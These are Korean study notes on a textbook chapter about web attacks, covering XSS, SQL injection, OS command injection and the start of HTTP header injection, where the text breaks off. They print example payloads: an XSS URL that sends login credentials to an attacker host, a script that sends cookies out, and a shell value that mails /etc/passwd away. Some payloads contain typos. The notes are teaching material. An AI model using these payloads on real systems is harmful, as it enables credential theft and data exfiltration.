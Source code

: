 # 11장. 웹 공격 기술

## 웹 공격 기술
- 현재 벌어지는 공격 대부분이 웹 사이트를 노린 것
- 그 중에서도 특히 웹 애플리케이션을 대상으로 많은 공격이 발생

### HTTP에는 보안 기능이 없다
- HTTP는 구조가 단순한 프로토콜
- HTTP vs SSH
  - SSH는 프로토콜 레벨에서 인증이나 세션 관련 기능이 준비되어 있지만 HTTP에는 없다.
  - SSH 서비스 셋업은 누구나 안전한 레벨까지 쉽게 구축 가능하지만 HTTP에서는 대부분 처음부터 개발하게 된다.
- 웹 애플리케이션에서 인증이나 세션 관리 기능을 개발자가 설계해야 한다.
- 그 결과, 보안 등급이 충분치 못하고 취약성이 있는 상태로 가동되고 있는 웹 애플리케이션이 있다.

### 리퀘스트는 클라이언트에서 변조 가능
- 웹 애플리케이션에 대한 공격은 HTTP 리퀘스트 메시지에 공격 코드를 실어서 실행된다.
- 쿼리나 폼, HTTP 헤더, 쿠키 등을 경유해서 보내져 웹 애플리케이션에 취약성이 있을 경우 정보를 도둑맞거나 권한을 빼앗길 수 있다.

### 웹 애플리케이션에 대한 공격 패턴
- 웹 애플리케이션에 대한 공격 패턴은 두 가지가 있다.
  - 능동적 공격
  - 수동적 공격
#### 서버를 노리는 능동적 공격
  - 공격자가 직접 웹 애플리케이션에 액세스해서 공격 코드를 보내는 타입의 공격
  - 서버 상의 리소스에 대해 직접 실행되기 때문에 공격자가 리소스에 액세스할 필요가 있음.
  - SQL 인젝션, OS 커맨드 인젝션
#### 유저를 노리는 수동적 공격
- 함정을 이용해 유저에게 공격 코드를 실행시키는 공격
- 공격자가 직접 웹 애플리케이션에 액세스해서 공격을 하지 않는다.
- 절차
  - 공격자가 설치한 함정에 유저를 유도함. 함정에는 공격 코드를 심어둔 HTTP 리퀘스트를 발생시키기 위한 장치 준비
  - 사용자가 함정에 걸리면 유저의 브라우저나 메일 클라이언트에서 함정을 열게 됨.
  - 함정에 걸리면 유저의 브라우저가 HTTP 리퀘스트를 웹 애플리케이션에 송신하고 공격 코드를 실행함.
  - 공격 코드를 실행하면 쿠키 등의 기밀 정보를 도둑 맞거나 로그인 중인 유저의 권한이 악용되는 등의 피해 발생
- 크로스 사이트 스크립팅(XSS), 크로스 사이트 리퀘스트 포저리(CSRF)

**유저가 처한 환경을 이용한 인트라넷 등에 대한 공격**
- 수동적 공격을 이용하면 인트라넷 같은 인터넷에서 직접 액세스할 수 없는 네트워크를 공격할 수 있다.
- 많은 인트라넷에서는 인터넷 상의 웹 사이트에 액세스하거나 인터넷에서 전송되어 온 메일을 읽을 수도 있기 때문에 공격자는 함정으로 유도하여 인트라넷을 공격할 수 있게 된다.

## 11.2 출력 값의 이스케이프 미비로 인한 취약성
- 웹 애플리케이션의 보안 대책을 실시하는 장소를 크게 나누면 다음과 같이 된다.
  - 클라이언트에서 체크
  - 웹 애플리케이션(서버 측)에서 체크
    - 입력값 체크
    - 출력값 체크

- 클라이언트 측에서의 체크는 대부분 JavaScript를 사용하는데, 변조되거나 무효화될 가능성이 있기 때문에 근본적인 보안 대책으로는 적합하지 않다.
- 웹 애플리케이션에서 처리한 데이터를 데이터베이스나 파일 시스템, HTML, 메일 등에 출력할 때 출력하는 곳에 따라 값을 이스케이프 처리하는 출력 값의 이스케이프가 보안 대책으로 중요

### 11.2 크로스 사이트 스크립팅
- 크로스 사이트 스크립팅(XSS)은 취약성이 있는 웹사이트를 방문한 사용자의 브라우저에서 부정한 HTML 태그나 JavaScript 등을 동작시키는 공격
- 동적으로 HTML을 생성하는 부분에서 취약성이 발생할 수 있다.
- 수동적 공격

![](https://3.bp.blogspot.com/-h8DgNsx8zhY/WCHPxBD4txI/AAAAAAAAC18/aMZJ85_yJU0vMYl8puDJZCDjJtlVYenFwCLcB/s1600/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA%2B2016-11-08%2B%25E1%2584%258B%25E1%2585%25A9%25E1%2584%2592%25E1%2585%25AE%2B10.14.22.png)

> 예시) 폼에 `<script>` 태그를 사용한 문자열을 입력하여 공격
**XSS는 공격자가 함정을 준비하는 수동적 공격**
- 예) URL의 쿼리에 ID를 지정함으로써 폼 내에 문자열을 보완하는 기능이 있는 웹사이트
  ```
  http://example.jp/login?ID=yama
  ```
  여기에 취약성이 있다고 파악한 공격자는 다음과 같은 함정을 작성한 후 교모한 내용의 메일이나 함정을 설치한 웹 페이지를 준비해서 유저가 URL을 클릭하도록 유도한다.
  ```javascript
  http://example.jp/login?ID="><script>var+f=document=>getElementById("login");+f.action="http://hackkr.jp/pwget";+f.method==>"get";</script><span+s="
  ```
  유저가 폼에 ID와 패스워드를 입력하면 공격자의 사이트로 송신되게 하여 빼앗을 수 있다.

#### 유저의 쿠키를 빼앗는 공격
- 폼에 함정을 설치하는 것 외에도 아래와 같은 스크립트를 추가하여 유저의 쿠키를 XSS로 빼앗을 수 있다.
  ```javascript
  <script src="http://hackr.jp/xss.js></script>
  ```
- 이 스크립트가 가리키는 http://hackr.jp/xss.js에는 아래의 JavaScript가 코딩되어 이다.
  ```javascript
  var content = escape(document.cookie);
  document.write("<img src="http://hackr.jp/?");
  document.write(content);
  document.write(">");
  ```
- XSS 취약성이 있는 웹 애플리케이션에서 JavaScript가 실행되면 해당 웹 애플리케이션의 도메인의 쿠키 정보에 액세스된다. 그리고 이 저보가 웹 사이트에 보내지고 액세스 로그에 기록된다.

### 11.2.2 SQL 인젝션
#### 부정한 SQL을 실행하는 SQL 인젝션
- SQL 인젝션 : 웹 애플리케이션을 이용하고 있는 데이터베이스에 SQL을 부정하게 실행하는 공격
- 커다란 위협을 일으킬 수 있는 취약성

**SQL 인젝션의 공격 사례**
- 웹 사이트에 [우에노 센]을 입력했을 때 이 값은 웹 애플리케이션 내부에서 SQL문에 전달되며 다음과 같이 구성된다.
  ```sql
  SELECT * FROM bookTbl WHERE author='우에노 센' and flag = 1;
  ```
- 조금 전 쿼리를 "우에노 센'--"으로 변경한다.
- 그럼 SQL문은 다음과 같이 구성된다.
  ```sql
  SELECT * FROM bookTbl WHERE author='우에노 센' --' and flag = 1;
  ```
- SQL문에서 "--" 이후는 주석으로 처리된다. 즉, `and flag=1`이라는 조건이 무시된다.

#### SQL 인젝션은 SQL 문장의 구문을 파괴하는 공격
- SQL 인젝션은 공격자에 의해 개발자가 의도하지 않는 형태로 SQL 문장이 변경되어 구조가 파괴되는 공격
- 이 책의 에에서는 절판 책이 표시되는 문제만 있었지만, 실제로 SQL 인젝션이 발생한 경우, 유저 정보나 결제 정보 등의 다른 테이블을 부정하게 열람하거나 변조되는 등의 피해가 발생할 수 있다.

### 11.2.3 OS 커맨드 인젝션
- 웹 애플리케이션을 경유하여 OS 명령을 부정하게 실행하는 공격
- 쉘을 호출하는 함수가 있는 곳에 발생할 가능성이 있다.

#### OS 커맨드 인젝션의 공격 사례
- 문의 폼에서 메일 송신 기능이 있다고 하자.
  - 유저가 문의를 보냈을 때 접수 완료했다는 연락을 입력한 메일 주소로 메일 송신
- 아래는 폼의 내용을 수신한 프로그램을 일부 발췌한 것
  ```shell
  my $adr = $q->param('mailaddress');
  open(MAIL, "| /usr/sbin/sendmail $adr");
  print MAIL "From: info@example.com￥n";
  ```
- 프로그램에서는 `open` 함수에 의해서 sendmail 커맨드를 호출해서 메일 주소에 지정된 값 `$adr$`에 메일을 송신
- 여기서 공격자는 아래의 값을 메일 주소로 지정
  ```shell
  ; cat /etc/passwd | mail hack@example.jp
  ```
- 이 값을 수신했을 때 프로그램 내에서 구성되는 명령은 아래와 같이 된다.
  ```
  | /usr/sbin/sendmail $adr ; cat /etc/passwd | mail hack@example.jp
  ```
- sendmail 커맨드가 실행된 후 일단락되고, 그 다음 커맨드가 실행되면서 /etc/passwd 라는 Linux의 계정 정보가 포함된 파일이 hack@example.jp로 메일로 송신된다.

### 11.2.3 HTTP 헤더 인젝션
- 리스폰스 헤더 필드에 개행 문자 등을 삽입함으로써 임의의 리스폰스 헤더 필드나 바디를 추가하는 수동적 공격
  - 특히 바디를 추가하는 공격을 HTTP 리스폰스 분할 공격(HTTP Response Splitting Attack)이라고 부른다.
- 웹 애플리케이션에서는 다음과 같이 리스폰스 헤더 필드 Location과 Ser-Cookie의 값에 외부에서 받은 값을 삽입하는 일이 있다.
  ```
  Location: http://www.example.com/a.cig?q=12345
  Set-Cookie: UID=12345

  *12345가 삽입된 값
  ```
- HTTP 헤더 인젝션은 이러한 리스폰스 헤더 필드에 값을 출력하는 처리가 있던 곳에 개행 문자를 삽입함으로써 발생
#### HTTP 헤더 인젝션의 공격 사례
